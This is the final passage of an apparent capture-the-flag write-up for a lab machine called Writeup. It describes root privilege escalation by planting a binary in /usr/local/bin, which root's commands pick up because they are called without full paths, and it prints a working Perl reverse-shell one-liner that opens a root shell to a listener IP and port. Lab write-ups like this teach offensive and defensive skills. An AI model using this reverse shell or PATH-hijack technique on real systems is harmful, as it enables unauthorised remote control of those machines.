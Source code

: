 Suddenly, we are met with a whole bunch of commands that don’t use the full path. We have sh, run-parts, and uname. Each of these commands is run by UID=0 which is root. So if we put a reverse shell in one of these binaries and copy it to the /usr/local/bin path, it will get executed and we will have a shell! The bash reverse shell did not work for me, so I used the perl reverse shell:

perl -e 'use Socket;$i="10.10.14.5";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

![](/reports/Writeup/image41.png)

![](/reports/Writeup/image37.png)

This was a fun box! Thank you @jkr for the cool privesc. Also, big thanks to Daniele Scanu, the creator of the SQL injection script. That was probably the most beautiful and user-friendly exploit I have ever used. Last but not least, thanks to you for reading this writeup! I hope you learned not only from the Writeup box, but also from this writeup! Feel free to write me up at [0xd4yWriteups@gmail.com](mailto:0xd4yWriteups@gmail.com) if you have any comments!
